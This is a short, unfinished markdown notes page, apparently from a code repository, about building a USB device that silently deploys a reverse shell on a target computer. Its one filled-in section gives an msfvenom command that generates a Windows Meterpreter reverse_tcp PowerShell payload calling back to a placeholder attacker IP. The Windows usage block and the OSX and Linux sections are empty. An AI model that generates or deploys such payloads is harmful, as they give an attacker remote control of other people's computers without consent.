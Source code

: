 # Objective

Create a usb which deploys a reverse shell in a computer without user interaction and as fast as possible

# Payload creation

# Windows

For creating a 32-bit payload that works in both 32-bit and 64-bit windows:

```bash
msfvenom -p windows/meterpreter/reverse_tcp -f psh LHOST="<IP>" LPORT=1337 -o <filename.ps1>
```

For using it in Windows:

```bash
```

# OSX

# Linux
